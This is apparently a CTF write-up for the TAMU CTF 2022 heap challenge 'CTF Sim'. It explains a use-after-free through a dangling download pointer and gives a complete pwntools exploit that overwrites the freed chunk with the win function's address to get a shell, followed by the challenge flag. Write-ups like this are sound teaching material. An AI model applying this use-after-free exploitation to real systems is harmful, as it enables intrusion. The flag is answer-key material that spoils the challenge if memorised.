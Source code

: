 ```yaml
---
title: "[Pwn] CTF Sim [Tamu CTF 2022]"
date: 2022-04-17 19:06:00
---
```


# 0x0 Introduction

Author: Lane

Wanna take a break from the ctf to do another ctf?

libc is glibc-2.28 on Debian Buster

SNI: ctf-sim

files: [ctf_sim](ctf_sim), [ctf_sim.cpp](ctf_sim.cpp)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

looking at the code, there is a very trivial dangling pointer in `obj.download`. After a challenge is deleted, `obj.downlaod` still have a pointer point to the original heap address.

Thats said, after we free a challenge. we can use `submitWriteup` to malloc a same lengh of data in the heap, this will return the same address as before.

Then, we can write `win_addr` into the heap and call `solveChallenge` again. Then we will successfully enter `win` function and get a shell.


# 0x3 Exploit

```
from pwn import *


class BinaryInfo:
    exe = "ctf_sim"
    libc = ""

    host = "rua.host.goes.here"
    port = 8000


# Set up pwntools for the correct architecture
exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
    libc = None
    libc_rop = None


# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or BinaryInfo.host
port = int(args.PORT or BinaryInfo.port)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = remote("tamuctf.com", 443, ssl=True, sni="ctf-sim")
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
#    Arch:     amd64-64-little
#    RELRO:    Partial RELRO
#    Stack:    No canary found
#    NX:       NX enabled
#    PIE:      No PIE (0x400000)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()


win_addr = exe.symbols["win_addr"]


io.sendlineafter(b"Quit\n> ",b'1')
io.sendlineafter(b"Crypto\n> ",b'3')
io.sendlineafter(b"(0-3)\n> ",b'0')
io.sendlineafter(b"Quit\n> ",b'2')
io.sendlineafter(b"(0-3)\n> ",b'0')
io.sendlineafter(b"Quit\n> ",b'3')
io.sendlineafter(b"writeup?\n> ",b'16')
io.sendlineafter(b"writeup\n> ",flat({0:win_addr}))
io.sendlineafter(b"Quit\n> ",b'2')
io.sendlineafter(b"(0-3)\n> ",b'0')
io.interactive()
```

# 0x4 Flag

gigem{h34pl355_1n_53477l3}